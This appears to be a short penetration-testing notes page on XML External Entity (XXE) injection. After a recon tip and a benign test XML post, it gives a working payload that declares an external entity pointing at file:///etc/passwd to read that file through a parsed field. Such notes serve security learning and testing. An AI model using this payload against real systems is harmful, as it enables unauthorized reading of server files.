 ```yaml
---
icon: file-xml
description: XML External Entity
---
```


# XXE

<mark style="color:purple;">**XXE vulnerabilities arise when an**</mark>**&#x20;**<mark style="color:orange;">**`XML`**</mark>**&#x20;**<mark style="color:purple;">**document contains a reference to an external entity, which the parser resolves.**</mark>

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection#exploiting-xxe-to-retrieve-files" %}
PayloadAllThings
{% endembed %}

{% hint style="info" %}
### <mark style="color:purple;">Recon</mark>

* <mark style="color:purple;">If you can create or submit a</mark> <mark style="color:orange;">**`XML`**</mark> <mark style="color:purple;">file, try to find the endpoint where is being submitted and check if is being parsed (for example a filling form will have the content of the file already filled on the form):</mark>

{% code title="Test file" overflow="wrap" %}
```xml
<post>
        <title>Tokyo's Post</title>
        <description>A post from Tokyo</description>
        <markdown>
## post
This is a test.
        </markdown>
</post>
```
{% endcode %}

* <mark style="color:purple;">Create a malicious</mark> <mark style="color:orange;">**`XML ENTITY`**</mark>  <mark style="color:purple;">and added at the top of the</mark> <mark style="color:orange;">**`XML`**</mark> <mark style="color:purple;">to read</mark> <mark style="color:orange;">**`/etc/passwd`**</mark><mark style="color:purple;">**, make sure you add the parser (**</mark><mark style="color:orange;">**`&file`**</mark><mark style="color:purple;">**)**</mark><mark style="color:purple;">:</mark>

{% code overflow="wrap" %}
```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ENTITY file SYSTEM "file:///etc/passwd"> ]>
<post>
        <title>Tokyo's Post</title>
        <description>Read File</description>
        <markdown>&file;</markdown>
</post>
```
{% endcode %}
{% endhint %}

